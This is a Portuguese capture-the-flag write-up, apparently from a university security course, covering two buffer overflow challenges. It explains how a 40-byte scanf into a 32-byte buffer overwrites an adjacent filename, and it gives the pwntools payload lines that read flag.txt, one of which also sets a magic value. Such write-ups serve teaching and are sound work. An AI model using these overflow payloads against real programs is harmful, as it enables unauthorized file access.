

# CTF5 - Buffer Overflow

## Preparação

Antes de iniciar o desafio, fizemos os downloads necessários para facilitar a criação de exploits, simplificando por exemplo a interação com executáveis e serviços remotos a partir de um script python.

```
echo 'export PATH="$HOME/.local/bin:$PATH"' >> .bashrc
python3 -m pip install --upgrade pwntools
```


Também vamos instalar o pacote checksec para podermos analisar com que proteções é que o programa foi compilado:

```
sudo apt update
sudo apt install checksec
```

## Desafio 1


Após as instalações necessárias, podemos então executar o comando `checksec program` para ver que tipos de proteções tem:


Como podemos ver, o programa tem arquitetura x86 (32bits), o binário não está randomizado, não existem canários nem proteção de execução ao nível da stack

Analisando agora o conteúdo do ficheiro main.c, podemos ver que existe uma alocação de 8 bytes para o nome do ficheiro e uma alocação de 32 bytes para o buffer.

```c
char meme_file[8] = "mem.txt\0";
char buffer[32];
```

Também confirmamos que a função scanf permite copiar até 40 bytes do stdin para o buffer que foi declarado anteriormente. Isso pode levar a uma situação de overflow de buffer quando a entrada excede 32 bytes.

```c
scanf("%40s", &buffer);
```
De acordo com o funcionamento da stack, a área de memória alocada é contínua e depende da ordem em que as variáveis são declaradas. Portanto, se ultrapassarmos a capacidade do buffer, acabamos sobrescrevendo a área de memória reservada para meme_file. Como as instruções seguintes no arquivo main.c mostram o conteúdo de meme_file, nosso objetivo é sobrescrever o nome do arquivo a ser lido para exibir o conteúdo de flag.txt.


No programa Python fornecido, na parte onde inserimos o conteúdo para o servidor, basta escrever 32 caracteres seguidos do nome do arquivo que queremos ler.

```py
r.sendline(b"xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxflag.txt")
```

O que nos permitiu obter, executando o comando `python3 exploit-example.py`:


## Desafio 2

Tal como no 1º, executamos o comando `checksec program`, onde as proteções são as mesmas que o program anterior :


Após executar o `nc ctf-fsi.fe.up.pt 4000`:


Apercebemo-nos que temos que cumprir uma condição if no código, que verifica se o val = 0xfefc2324. De resto , é semelhante ao desafio anterior.


```
if(*(int*)val == 0xfefc2324)
```

Logo vamos escrever a seguinte linha no ficheiro python, com 32 'x' + o val correto + ficheiro flag.txt:
```py
r.sendline(b"xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx\x24\x23\xfc\xfeflag.txt")
```
Alterando o port de 4003 para 4000, executamos o ficheiro python e obtemos:




